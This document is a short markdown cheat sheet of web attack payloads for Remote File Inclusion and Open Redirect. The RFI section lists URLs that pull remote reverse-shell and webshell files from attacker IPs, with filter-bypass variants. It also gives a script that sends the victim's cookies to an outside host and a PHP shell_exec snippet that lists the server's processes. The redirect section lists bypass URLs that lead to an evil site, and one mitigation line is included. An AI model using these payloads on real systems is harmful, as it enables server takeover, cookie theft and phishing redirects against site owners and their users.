 # Remote File Inclusion

## Exploit
- ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
- ```index.php?page=http://attackerIP/webshell.php``` 
- ```index.php?page=htthttpp://attackerIP/webshell.php```
- ```?page=hTTp://10.20.14.203/reverse.txt?```
## Payloads
- Steal Cookie with "getcookie.txt"
```HTML
<img id="img" src="">
<script>
document.getElementById("img").src="http://192.123.219.2/?cookie="+document.cookie
</script>
```
- Process list of the target server with "shell.php"
```PHP
<?php
$output=shell_exec(“ps -eaf”);
echo “<pre>”.$output.“</pre>”;
?>
```

## Mitigation
-  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

# Open Redirect

## Concept
- Allowed: https://example.com/login/?nextPage=https://google.com
- Not allowed: https://example.com/login/?nextPage=https://evilsite.com

## Payload
- https://example.com/login/?nextPage=https://evilsite.com/?google.com
- https://example.com/login/?redirect=https://www.evilsite.google.com
- https://example.com/login/?nextPage=https:///www.google.com@evilsite.com
